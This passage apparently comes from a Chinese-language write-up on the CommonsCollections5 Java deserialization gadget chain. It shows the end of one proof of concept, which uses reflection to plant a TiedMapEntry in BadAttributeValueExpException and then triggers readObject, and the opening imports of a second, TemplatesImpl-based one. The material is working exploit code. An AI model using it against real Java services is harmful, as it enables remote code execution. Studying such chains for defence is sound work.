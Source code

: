 ```java

        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException("h3rmesk1t");
        Class _class = Class.forName("javax.management.BadAttributeValueExpException");
        Field field = _class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, tiedMapEntry);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(badAttributeValueExpException);
            objectOutputStream.close();

            // 反序列化
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC5();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
![undefined](https://p0.ssl.qhimg.com/t01c9ad9512dbd5a0b8.png "undefined")

### POC-2

```java
package CommonsCollections5;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/30 2:47 下午
```